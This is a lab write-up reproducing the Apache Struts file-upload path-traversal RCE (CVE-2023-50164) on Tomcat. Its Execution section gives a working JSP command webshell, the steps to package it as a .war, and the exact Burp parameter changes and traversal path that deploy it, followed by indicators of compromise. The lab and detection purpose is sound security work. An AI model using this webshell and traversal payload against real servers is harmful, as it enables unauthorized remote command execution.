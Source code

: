 # Apache Struts RCE (CVE-2023-50164)
## Summary

This vulnerability allows for an attacker to manipulate file upload parameters to enable path traversal affecting the destination of the uploaded file. Under some circumstances this can lead to uploading a malicious file which can be used to perform remote code execution. This affects Struts versions 2.0.0-2.3.3 (EOL), 2.5.0-2.5.32, and 6.0.0-6.3.0.1. This vulnerability is fixed by Struts versions 2.5.33 or greater and 6.3.0.2 or greater

## Prerequisites

This requires a web server hosting a vulnerable web application using Struts ActionSupport and offering file upload functionality. Furthermore, to gain remote code execution, the application server implementing the server side upload logic needs to upload the file to the local filesystem of the webserver and have write permissions to a sensitive directory that would be useful to an attacker such as the webroot to upload a JSP webshell. 

[Additional Details on Mitigating Factors/Prerequisites](https://securityboulevard.com/2023/12/understanding-the-impact-of-the-new-apache-struts-file-upload-vulnerability/)
## Setup

[Exploit Analysis and Lab Setup for Linux and Tomcat 9](https://www.vicarius.io/vsociety/posts/apache-struts-rce-cve-2023-50164)

For this example setup, I used a Windows Host with Tomcat, however this exploit can also be conducted on Linux or with another Servlet of your choice. This will mostly affect the target directories for path traversal and the method of gaining RCE.

#### JDK 17 - Windows Install
> *Apache Tomcat Requires Java(JDK). Version 17 was used during emulation and confirmed to work*

First, if you do not have it already, you need to install JDK 17: [JDK 17 Install](https://www.oracle.com/java/technologies/downloads/#jdk17-windows)

You can check this with `java --version`

#### Maven - Windows Install
>*Usage is for compiling webapps into .war for deployment. Can run on Windows or Linux and transfer compiled .war file to desired destination*

Next, you'll also need to install maven. Below are guides that detail the installation and configuration process

[Maven Windows Install and Setup](https://phoenixnap.com/kb/install-maven-windows)

[Maven Linux Install and Setup](https://www.digitalocean.com/community/tutorials/install-maven-linux-ubuntu)

#### Tomcat - Windows Install and Deploy
>*WARNING: Tomcat Versions higher than 9 will produce an error due to Servlet API version conflict between Struts and Tomcat*

Next, you'll need to install tomcat and configure the service to host the web applications. The easiest way to do this for windows is to use the Windows Service Installer. [Tomcat Install](https://tomcat.apache.org/download-90.cgi)
- Make sure you have JDK installed beforehand, as you will need it to finish installation
- When going through the installer wizard, make sure to set an administrator user and password so as to access the manager app. If you miss this step, you can add/manage users in the `tomcat-users.xml` file

By default, the installer should create a new service named something similar to `Apache Tomcat 9.0 Tomcat9`. Make sure this is running, and for ease of use, you can configure it to run automatically on startup.

When this is running, your website should be accessible! Go to 127.0.0.1:8080 in the web browser to check.
>*NOTE: By default, tomcat hosts on port 8080. To change this, you can edit the `server.xml` file in the `conf` folder*

![Successful Tomcat Deployment](./images/Pasted%20image%2020240119131515.png)
> *NOTE: If trying to access from an external machine, such as a kali box, make sure that your networking/DNS is properly configured and that the boxes can communicate, as well as check that no firewalls/filtering are blocking the port/traffic. If hosting on a Windows host, you'll likely need to either disable or modify Windows Defender Firewall rules to allow traffic through to the port you are hosting Tomcat on*
#### Compile and Deploy Vulnerable File Upload Application
For this environment, we'll deploy a basic file upload application that uses a vulnerable version of Apache Struts

[Github POC Exploit and Vulnerable Struts App](https://github.com/jakabakos/CVE-2023-50164-Apache-Struts-RCE)

Download the struts-app folder and contents from the above link. Within the `struts-app` folder, run:
```bash
mvn clean package
```

This should produce an `upload-1.0.0.war` within a newly created `target` subdirectory. To deploy this application, go to the tomcat manager app in the webserver. Find the "Deploy" section, upload the file, and click `Deploy`

>*NOTE: Manager app is only accessible from the localhost by default*

![Tomcat Manager](./images/Pasted%20image%2020240118160002.png)
Make sure that the upload-1.0.0 application is started, and then it should be accessible from `127.0.0.1/upload-1.0.0/upload.action` on the website

![File upload application](./images/Pasted%20image%2020240119113847.png)

Congrats! Your environment is now ready for exploitation
## Execution

### Method 1 - Manual Exploitation

#### Prepare a Webshell to Upload
To gain RCE on Tomcat, we will need to upload a .war webshell to the webapps directory. Similar to how we deployed the upload-1.0.0.war, this will allow us to deploy our own malicious application. You can create your own malicious application, or use the basic jsp webshell below

[Basic jsp webshell:](https://github.com/jakabakos/CVE-2023-50164-Apache-Struts-RCE/blob/main/exploit/webshell.jsp) 
```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    String output = "";
    if (cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd, null, null);
            BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
            while ((s = sI.readLine()) != null) {
                output += s + "\n";
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
%>
<%=output %>
```
Save to `webshell.jsp`, and convert into a .war file:
```bash
jar -cvf webshell.war webshell.jsp`
```
This should create `webshell.war`, which we'll use to deploy our malicious application
#### Use Burp to modify upload parameters
Using a Burp Proxy, go to the file upload application you deployed earlier. Click on `Choose File` and select `webshell.war`. Turn on intercept in Burp, and click `Submit`. Burp should intercept the packet containing your uploaded file data. Send the HTTP POST packet to Repeater, where we will modify 2 of the parameters:
- Set `name="upload` to `name="Upload`
- Add a new upload parameter:
````
Content-Disposition: form-data; name="uploadFileName"; 

..\..\..\..\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\webshell.war
````
>*NOTE: Make sure to modify the form boundaries as well, appending a copy of the one ending with "--" to the end of the packet, and removing the "--" from the original. The image below contains an example of what this looks like when completed*

![Modified HTTP Packet](./images/Pasted%20image%2020240119130729.png)
Send this modified packet, and your webshell should be deployed to Tomcat's webapp directory!
To check if our exploit worked and interact with out webshell, we can use the `cmd` variable at `{0.0.0.0:8080}/webshell/webshell.jsp?cmd=whoami`

![whoami Command run by webshell](./images/Pasted%20image%2020240118171435.png)
>*NOTE:
>Default deployment will create a directory with the .war's name containing the jsp file we compiled.*
>
>*Ex: `jar -cvf warname.war jspname.jsp` will be accessible at `/warname/jspname.jsp`*
#### Indicators of Compromise

- Http traffic containing the "Upload" and "uploadFileName" parameters
- Http traffic containing `../` characters
- New or unusual files created/uploaded by the web service to unintended/unexpected locations (Outside of designed upload destination)
	- In particular, the creation of .war files in Tomcat's webapps directory (or a similar event in another servlet) and/or associated deployment of unauthorized web applications
